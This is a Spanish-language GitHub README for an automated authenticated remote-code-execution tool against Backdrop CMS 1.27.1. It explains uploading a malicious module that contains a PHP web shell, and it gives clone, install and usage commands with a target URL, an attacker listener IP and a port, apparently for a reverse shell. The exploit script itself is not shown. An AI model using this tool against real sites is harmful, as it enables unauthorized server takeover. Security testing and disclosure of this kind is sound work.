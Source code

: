 # Backdrop CMS 1.27.1 - Automated Authenticated RCE

Este [script](<autoDropRCE.py>) permite obtener acceso de forma automatizada a la máquina víctima sobre una instalación vulnerable de **Backdrop CMS 1.27.1**. La vulnerabilidad explotada radica en la gestión de módulos, donde el atacante puede subir e instalar un módulo malicioso en el sistema.

Las opciones disponibles son las siguientes:

```ps
usage: autoDropRCE.py [-h] -t TARGET_URL -h-ip HOST_IP -u USERNAME -p PASSWORD [-l PORT]

🪂 Backdrop CMS 1.27.1 - Automated Authenticated RCE 🪂

   ej: python3 autoDropRCE.py -t http://backdrop-example.com -i 172.17.0.1 -u trr0r -p trr0r

options:
  -h, --help                   show this help message and exit
  -t, --target-url TARGET_URL  Target url Backdrop web - ej: http://backdrop-example.com
  -h-ip, --host-ip HOST_IP     Host IP - ej: 172.17.0.1
  -u, --username   USERNAME    Valid Backdrop username - ej: trr0r
  -p, --password   PASSWORD    Valid Backdrop password - ej: trr0r
   
  -l, --listen-port PORT       Listen port                                             (default = 4444)
```

___
## Descripción de la Vulnerabilidad 📜

En el gestor de contenidos **Backdrop** (**1.27.1**) un atacante puede subir módulos maliciosos al sistema. Esto se debe a una debilidad en la forma en que **Backdrop** maneja la carga de módulos a través del **instalador manual de módulos**, lo que facilita la ejecución remota de comandos (**RCE**).
### 1. Módulo Malicioso:

El atacante debe de crear un módulo `.tar` que contenga:
- Un archivo `.php` con código malicioso, como una **web shell**, que permita ejecutar comandos de manera remota (**RCE**).
- Un archivo `.info` que describa el módulo para que así sea registrado como un módulo válido para el sistema **Backdrop CMS**.
### 2. Subida del Módulo:

Para aprovechar esta vulnerabilidad, el atacante necesita autenticarse en **Backdrop CMS**. Una vez autenticado, y si tiene los permisos adecuados, podrá cargar e instalar un módulo malicioso. Este módulo, al ser instalado en el sistema, permitirá al atacante ejecutar comandos de manera remota en el servidor (RCE).

___
## Descarga 📥

Nos clonamos el repositorio de la siguiente forma:

```bash
git clone https://github.com/trr0r/autoDropRCE
cd autoDropRCE
```

Instalamos las librerías necesarias gracias a `pip3`:

```bash
pip3 install -r requirements.txt
```

___
## Uso ⚙️

Una vez que tengas los datos listos, puedes ejecutar el script con el siguiente comando:

```bash
python3 autoDropRCE.py -t http://backdrop-example.com -h-ip 172.17.0.1 -u trr0r -p trr0r
```

![Image](https://github.com/user-attachments/assets/d654ae24-a00d-46d6-9127-facdb019c326)

---
### Advertencia legal ⚠️

> [!WARNING]
Este software está destinado solo para uso personal y debe utilizarse únicamente en entornos controlados y con autorización previa. El empleo de esta herramienta en sistemas o redes sin la debida autorización puede ser ilegal y contravenir políticas de seguridad. El desarrollador no se hace responsable de daños, pérdidas o consecuencias resultantes de su uso inapropiado o no autorizado. Antes de utilizar esta herramienta, asegúrate de cumplir con todas las leyes y regulaciones locales pertinentes.